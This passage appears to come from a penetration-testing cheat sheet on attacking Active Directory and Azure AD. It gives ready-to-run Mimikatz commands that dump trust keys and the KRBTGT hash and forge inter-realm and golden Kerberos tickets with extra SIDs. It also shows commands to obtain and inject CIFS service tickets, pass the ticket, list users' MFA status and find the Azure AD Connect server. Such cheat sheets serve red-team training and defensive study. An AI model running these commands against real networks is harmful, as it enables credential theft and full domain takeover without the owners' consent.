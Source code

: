 #### Trust Tickets

_Dumping Trust Key_

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```

_Forging IR-TGT using Trust key_

```
Invoke-Mimikatz -Command '"Kerberos::golden /domain:$domain /sid:$sid /sids:$extra_sids /rc4:$rc4_hash /user:Administrator /service:krbtgt /target:$target /ticket:$path/to/trust_ticket.kirbi"'
```

_get TGS for CIFS service_

```
asktgs path/to/trust_ticket.kirbi CIFS/ps-dc.powershell.local
```

_use TGS for CIFS service_

```
kirbikator.exe lsa .\CIFS.$domain.kirbi ls \\$domain\`c$
```

#### Using KRBTGT hash

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domaine.fun.local /sid:S-1-5-x-x-x-x /sids:S-1-5-x-x-x-x-519 /krbtgt:<hash> /ticket:C:\path\krb_tgt.kirbi"'

Invoke-Mimikatz -Command '"kerberos::ptt C:\path\krb_tgt.kirbi
```

### Azure Active Directory

#### AZ User Enumeration

_connection to Azure Active Directory with **Connect-MsolService**._

```
PS> Connect-MsolService -Credential $cred
```

_this command allow enumeration with MFA (MultiFactor Authentification)_

```
Get-MsolUser -EnabledFilter EnabledOnly -MaxResults 50000 | select DisplayName,UserPrincipalName,@{N="MFA Status"; E={ if( $_.StrongAuthenticationRequirements.State -ne $null){ $_. StrongAuthenticationRequirements.State} else { "Disabled"}}} | export-csv mfaresults.csv
```

_locate Azure AD Connect Server_

```
ldapsearch -H ldap://DC01.MEGACORP.CORP:389 -D "MEGACORP\john" -w $password -b "DC=MEGACORP,DC=CORP" '(description=*Azure*)' description
```
